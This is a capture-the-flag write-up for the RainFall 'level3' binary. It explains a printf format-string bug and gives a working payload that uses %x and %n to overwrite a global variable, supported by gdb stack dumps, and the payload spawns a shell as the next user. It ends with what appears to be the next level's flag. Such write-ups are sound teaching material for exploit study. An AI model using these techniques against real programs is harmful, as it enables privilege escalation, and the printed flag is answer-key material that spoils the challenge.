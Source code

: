 ## Flag3 README: Finding Flag3

After connection on our vm with:
```bash
ssh level3@localhost -p 4242
```
We finded a binary program called level3.
if we decompile it we got this
```C
int v()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```
so we clearly understand that we need to change m to be equal to 64.
firstly we need to decompile it and search for m variable.
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
so we see that the decompilation didn't work
and it s more something like this
```C
result = RandomVariable
if randomvariable == 64 then we continue
```

And there is an known exploit with printf when you make in only print a variable like this :
```C
printf(foo)
```
to be safe he need to be like this :
```C
printf("%s", foo)
```

So let's exploit this.

The idea of the exploit is to print and mofify adress by adding sone %x and %n.
firstly we need to know when you are writing to the stack and at what adress.
So for exemple if if print  AAAA.%x.%x.%x.%x. this is the result :
AAAA.%x.%x.%x.%x.
AAAA.200.b7fd1ac0.b7ff37d0.41414120.
So lets decompile the stack after puting some AAAA inside it.

200 b7fd1ac0 b7ff37d0 is our sequence that are before in the stack. Let's verify it :
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x2e78252e	0x252e7825	0x78252e78
0xbffff530:	0xbf000a2e	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff540:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff588
0xbffff550:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff560:	0x00000098	0x0000000b	0x00000000	0x00000000
0xbffff570:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff580:	0x00000000	0xb7fe765d	0xb7e3ebaf	0x080482bb

So we can see that our sequence is locating in here :
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0


0xbffff520:	0x41414141 this is our 4 A

Then we will have to put the target adress (0x804988c) at the begining in the payload by replacing the AAAA it will be write in the stack at the positions 5 let's check it:

python -c 'print("\x8c\x98\x04\x08" + "%20x"*3 + "%n")'
<<< $(python -c 'print("\x8c\x98\x04\x08" + ".%x."*4)')
�.200..b7fd1ac0..b7ff37d0..804988c.

yep we can see that the last is our value puted in the front.

so now lets work with %n that will be writing the length of the string up to that point.

so what we need is to put a lot of charactere before it.And we know that the value we need to search is 64.

and by trying and each time printing the value we realize that was the payload to do :

level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %x. " * 2 + "%43x" + "%n")' > test3
level3@RainFall:~$ cat test3 - | ./level3
� 200.  b7fd1ac0.                                    b7ff37d0
Wait what?!
whoami
level4


b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

